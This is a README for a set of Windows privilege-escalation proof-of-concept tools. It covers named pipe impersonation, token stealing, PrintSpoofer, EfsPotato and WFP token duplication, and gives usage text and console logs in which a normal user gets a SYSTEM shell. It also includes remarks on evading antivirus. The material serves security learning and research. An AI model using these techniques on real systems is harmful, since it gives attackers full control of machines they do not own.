






# Arts Of GetSystem

This directory is for PoCs to help learning how to get SYSTEM privilege.

## Table Of Contents

- [Arts Of GetSystem](#arts-of-getsystem)
  - [Named Pipe Impersonation](#named-pipe-impersonation)
  - [Token Stealing](#token-stealing)
  - [Print Spoofer](#print-spoofer)
  - [EfsPotato](#efspotato)
  - [Token Duplication with WFP](#token-duplication-with-wfp)

## Named Pipe Impersonation

Named Pipe impersonation technique is one of the most popular technique to get SYSTEM privilege.
This methods is implemented in the PoC named [NamedPipeImpersonation](./NamedPipeImpersonation):

```
PS C:\Dev> .\NamedPipeImpersonation.exe -h

NamedPipeImpersonation - PoC to get SYSTEM privileges with named pipe method.

Usage: NamedPipeImpersonation.exe [Options]

        -h, --help    : Displays this help message.
        -m, --method  : Specifies method. '0' for in-memory, '1' for dropper.
        -t, --timeout : Specifies timeout in milliseconds. Default is 3,000 ms.

[!] -m option is required.

PS C:\Dev>
```

Method option is required.
If you want to use in-memory method, set this option to `0`, but it is likely to be detected by Anti-Virus.
If you set `1`, `NamedPipeImpersonation.exe` will drop service binary in temporary directory.
This method is less likely to be detected by Anti-Virus than in-memory method.
Dropper binary source is [NamedPipeClient](./NamedPipeClient), and the compiled binary is implanted in [NamedPipeImpersonation/Library/Globals.cs](./NamedPipeImpersonation/Library/Globals.cs) as `BinaryData` property.


## Token Stealing

If you can duplicate token from SYSTEM privileged process and have sufficient privileges, you can create SYSTEM privileged process.
There are several patterns as folllows:

1. If you have `SeAssignPrimaryTokenPrivilege` and `SeIncreaseQuotaPrivilege`, you can directry assign duplicated primary token to new process by [`CreateProcessAsUser` API](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasusera).

2. If you have `SeImpersonatePrivilege`, you can get SYSTEM privilege as following steps:

    1. Duplicate impersonation token from a SYSTEM privileged process which has `SeAssignPrimaryTokenPrivilege` and `SeIncreaseQuotaPrivilege`.

    2. Using `SeImpersonatePrivilege`, assign impersonation token to execution thread by [`ImpersonateLoggedOnUser` API](https://learn.microsoft.com/en-us/windows/win32/api/securitybaseapi/nf-securitybaseapi-impersonateloggedonuser) or [`SetThreadToken` API](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-setthreadtoken).

    3. Using `SeAssignPrimaryTokenPrivilege` and `SeIncreaseQuotaPrivilege`, create a new token assigned process as explained above.

3. If you have `SeImpersonatePrivilege`, and `Secondary Logon` service is available, you can create a new token assigned process by [`CreateProcessWithToken` API](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw).

These methods are implemented in the PoC named [TokenStealing](./TokenStealing):

```
PS C:\Dev> .\TokenStealing.exe -h

TokenStealing - PoC to get SYSTEM privileges with token stealing method.

Usage: TokenStealing.exe [Options]

        -h, --help      : Displays this help message.
        -f, --full      : Flag to enable all token privileges.
        -s, --secondary : Flag to use Secondary Logon Service.

PS C:\Dev>
```






## Print Spoofer

This PoC is CSharp ported version of [@itm4n](https://twitter.com/itm4n)'s PrintSpoofer:

* [GitHub - itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer)
* [PrintSpoofer - Abusing Impersonation Privileges on Windows 10 and Server 2019](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)

```
C:\Tools>PrintSpoofer.exe -h

PrintSpoofer - PoC to get SYSTEM privileges with print spooler method.

Usage: PrintSpoofer.exe [Options]

        -h, --help        : Displays this help message.
        -i, --interactive : Flag to execute command with interactive mode.
        -c, --command     : Specifies command to execute.
        -s, --session     : Specifies session ID.
        -t, --timeout     : Specifies timeout in milliseconds. Default is 3,000 ms.

[!] -c option is required.
```

This technique supports Windows 10, Windows Server 2016 / 2019.
If you try this PoC in newer Windows such as Windows 11, failed with RPC_STATUS `0x000006BA` (`The RPC server is unavailable.`).

To try this PoC, set command to execute with `-c` option.
In default, specified command will be executed with Secondary Logon Service as follows:

```
C:\Tools>PrintSpoofer.exe -c cmd.exe

[>] Trying to create named pipe.
[+] Named pipe is created successfully.
    [*] Path : \\.\pipe\PrivFuPipe\pipe\spoolss
[>] Waiting for named pipe connection.
[+] Print spooler is triggered successfully.
[+] Got named pipe connection.
[+] Named pipe impersonation is successful (SID: S-1-5-18).
[+] SYSTEM process is executed successfully (PID = 5148).
[*] Done.
```



When set `-i` flag, specified command will be executed in same console:

```
C:\Tools>whoami /user

USER INFORMATION
----------------

User Name     SID
============= =============================================
contoso\david S-1-5-21-3654360273-254804765-2004310818-1104

C:\Tools>PrintSpoofer.exe -i -c cmd

[>] Trying to create named pipe.
[+] Named pipe is created successfully.
    [*] Path : \\.\pipe\PrivFuPipe\pipe\spoolss
[>] Waiting for named pipe connection.
[+] Print spooler is triggered successfully.
[+] Got named pipe connection.
[+] Named pipe impersonation is successful (SID: S-1-5-18).
[+] SYSTEM process is executed successfully (PID = 7504).
Microsoft Windows [Version 10.0.18362.175]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Tools>whoami /user

USER INFORMATION
----------------

User Name           SID
=================== ========
nt authority\system S-1-5-18

C:\Tools>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeCreateTokenPrivilege                    Create a token object                                              Enabled
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Enabled
SeLockMemoryPrivilege                     Lock pages in memory                                               Enabled
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeTcbPrivilege                            Act as part of the operating system                                Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeCreatePermanentPrivilege                Create permanent shared objects                                    Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeAuditPrivilege                          Generate security audits                                           Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeTrustedCredManAccessPrivilege           Access Credential Manager as a trusted caller                      Enabled
SeRelabelPrivilege                        Modify an object label                                             Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
```


## EfsPotato

This technique is not much different from PrintSpoofer.
The only difference is that it uses EFS RPC instead of Print Spooler to get the Named Pipe Connection.

* [GitHub - zcgonvh/EfsPotato](https://github.com/zcgonvh/EfsPotato)

Unlike PrintSpoofer, it has been tested on Windows 11 22H2.

```
PS C:\Dev> .\EfsPotato.exe -h

EfsPotato - PoC to get SYSTEM privileges with EFS RPC method.

Usage: EfsPotato.exe [Options]

        -h, --help        : Displays this help message.
        -i, --interactive : Flag to execute command with interactive mode.
        -c, --command     : Specifies command to execute.
        -e, --endpoint    : "efsrpc", "lsarpc", "lsass", "netlogon" or "samr".
        -s, --session     : Specifies session ID.
        -t, --timeout     : Specifies timeout in milliseconds. Default is 3,000 ms.

[!] -c option is required.
```

Usage is same as PrintSpoofer, but you can specify some endpoint pipe name (default is "\pipe\efsrpc").

```
PS C:\Dev> whoami /user

USER INFORMATION
----------------

User Name    SID
============ ==============================================
dev22h2\user S-1-5-21-3896868301-3921591151-1374190648-1001
PS C:\Dev> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name         Description                               State
====================== ========================================= ========
SeImpersonatePrivilege Impersonate a client after authentication Disabled
PS C:\Dev> .\EfsPotato.exe -i -c powershell

[>] Trying to create named pipe.
[+] Named pipe is created successfully.
    [*] Path : \\.\pipe\{673BDABB-D0D6-403A-9EC8-0AC929BF7C66}\pipe\srvsvc
[>] Waiting for named pipe connection.
[>] Calling EfsRpcEncryptFileSrv().
    [*] Target File Path: \\localhost/pipe/{673BDABB-D0D6-403A-9EC8-0AC929BF7C66}\C$\PrivFu.txt
[+] Got named pipe connection.
[+] Named pipe impersonation is successful (SID: S-1-5-18).
[+] SYSTEM process is executed successfully (PID = 9412).
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Dev> whoami /user

USER INFORMATION
----------------

User Name           SID
=================== ========
nt authority\system S-1-5-18
PS C:\Dev> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeCreateTokenPrivilege                    Create a token object                                              Enabled
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Enabled
SeLockMemoryPrivilege                     Lock pages in memory                                               Enabled
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeTcbPrivilege                            Act as part of the operating system                                Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeCreatePermanentPrivilege                Create permanent shared objects                                    Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeAuditPrivilege                          Generate security audits                                           Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeTrustedCredManAccessPrivilege           Access Credential Manager as a trusted caller                      Enabled
SeRelabelPrivilege                        Modify an object label                                             Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
```



If you want to try other endpoint, set endpoint pipe name with `-e` option as follows.
As far as I tested in Win11 22H2, `efsrpc` is only abusable endpoint for Win11 22H2.

```
PS C:\Dev> .\EfsPotato.exe -i -c powershell -e netlogon

[>] Trying to create named pipe.
[+] Named pipe is created successfully.
    [*] Path : \\.\pipe\{E452876B-D971-4C97-A3B3-D7B672AC2D32}\pipe\srvsvc
[>] Waiting for named pipe connection.
[>] Calling EfsRpcEncryptFileSrv().
    [*] Target File Path   : \\localhost/pipe/{E452876B-D971-4C97-A3B3-D7B672AC2D32}\C$\PrivFu.txt
    [*] Endpoint Pipe Name : \pipe\netlogon
[-] Timeout.
[*] Done.

PS C:\Dev>
```


## Token Duplication with WFP

This method is presented at DEF CON 31 (2023) by Ron Ben-Yizhak.

* [#NoFilter - Abusing Windows Filtering Platform for Privilege Escalation](https://www.deepinstinct.com/blog/nofilter-abusing-windows-filtering-platform-for-privilege-escalation)
* [Slide](https://media.defcon.org/DEF%20CON%2031/DEF%20CON%2031%20presentations/Ron%20Ben-Yizhak%20-%20NoFilter%20Abusing%20Windows%20Filtering%20Platform%20for%20privilege%20escalation.pdf)

In summary, this approach uses the Windows Filtering Platform (WFP) functionality to achieve Token Duplication.

```
PS C:\Dev> .\WfpTokenDup.exe -h

WfpTokenDup - PoC for token stealing with Windows Filtering Platform.

Usage: WfpTokenDup.exe [Options]

        -h, --help   : Displays this help message.
        -S, --system : Flag to get SYSTEM shell.
        -p, --pid    : Specifies PID to duplicate token handle in decimal format.
        -v, --value  : Specifies handle value to duplicate token handle in hex format.
```

To get SYSTEM privilege, simply set `-S` flag:

```
PS C:\Dev> .\WfpTokenDup.exe -S

[>] Trying to get a WfpAle handle.
[+] Got a WfpAle handle (handle = 0x2FC).
[>] Trying to get WFP engine handle.
[+] Got a WFP engine handle (hanlde = 0x1AB7DCF8AF0).
[>] Installing new IPSec policy.
[+] New IPSec policy is installed (GUID: 57f77e37-2cc3-49db-b462-728702621fed)
[>] Triggering printer.
[*] RPC_STATUS is 0x00000709.
[>] Trying to find SYSTEM token.
[+] Got a SYSTEM token (handle = 0x328).
    [*] Modified ID : 0x000000000000001C
[>] Uninstalling IPSec policy.
[+] IPSec policy is uninstalled successfully.
[>] Trying to spawn token assigned shell with Secondary Logon service.
[+] Got a token assigned shell.
[*] Done.
```

This PoC uses Secondaly Logon service, so SYSTEM shell will be spawned with other console as following figure.
Duplicated token has SeTcbPrivilege, so we can get shell in same console with S4U logon technique, but I don't implement it currently.



If you want to try duplicate token handle in another process with WFP, set PID in decimal format with `-p` option and handle value in hex format with `-v` option.
To get handle information, you can use my another tool named as [TokenDump](../TokenDump) as follows:

```
PS C:\Dev> .\TokenDump.exe -e -H

[>] Trying to enumerate token handles.

[Token Handle(s) - winlogon.exe (PID: 704)]

Handle Session Token User          Integrity Restricted AppContainer Token Type    Impersonation Level
====== ======= =================== ========= ========== ============ ============= ===================
 0x2B0       1 NT AUTHORITY\SYSTEM System    False      False        Primary       Anonymous
 0x2B4       1 NT AUTHORITY\SYSTEM System    False      False        Primary       Anonymous


--snip--

[Token Handle(s) - svchost.exe (PID: 2568)]

Handle Session Token User          Integrity Restricted AppContainer Token Type Impersonation Level
====== ======= =================== ========= ========== ============ ========== ===================
 0x240       1 dev22h2\user        High      False      False        Primary    Identification
 0x248       1 dev22h2\user        High      False      False        Primary    Identification
 0x298       1 dev22h2\user        High      False      False        Primary    Identification
 0x2B8       0 NT AUTHORITY\SYSTEM System    False      False        Primary    Anonymous

[+] Got 892 handle(s).
[*] Found 8 account(s).
    [*] NT AUTHORITY\SYSTEM
    [*] dev22h2\user
    [*] Font Driver Host\UMFD-1
    [*] Font Driver Host\UMFD-0
    [*] NT AUTHORITY\NETWORK SERVICE
    [*] Window Manager\DWM-1
    [*] NT AUTHORITY\LOCAL SERVICE
    [*] NT AUTHORITY\ANONYMOUS LOGON
[*] Done.

PS C:\Dev> .\TokenDump.exe -e -H -p 2568 -a system

[>] Trying to enumerate token handles.

[Token Handle(s) - svchost.exe (PID: 2568)]

Handle Session Token User          Integrity Restricted AppContainer Token Type Impersonation Level
====== ======= =================== ========= ========== ============ ========== ===================
 0x2B8       0 NT AUTHORITY\SYSTEM System    False      False        Primary    Anonymous

[+] Got 1 handle(s).
[*] Found 2 account(s).
    [*] dev22h2\user
    [*] NT AUTHORITY\SYSTEM
[*] Done.

PS C:\Dev>
```

Using this information, perform token duplication and spawn token assigned shell with Secondary Logon service as follows:

```
PS C:\Dev> .\WfpTokenDup.exe -p 2568 -v 0x2B8

[*] Target information:
    [*] Process Name : svchost
    [*] Process ID   : 2568
    [*] Handle Value : 0x2B8
[>] Trying to get a WfpAle handle.
[+] Got a WfpAle handle (handle = 0x110).
[>] Trying to register the target object handle to WFP.
[+] Token registration maybe successful.
    [*] Modified ID : 0x00000000000003A5
[>] Trying to fetch the registered token.
[+] Got the registered token (handle = 0x2EC).
[>] Releasing the registered token from WFP.
[+] The registered token is released successfully.
[>] Trying to spawn token assigned shell with Secondary Logon service.
[+] Got a token assigned shell.
[*] Done.
```


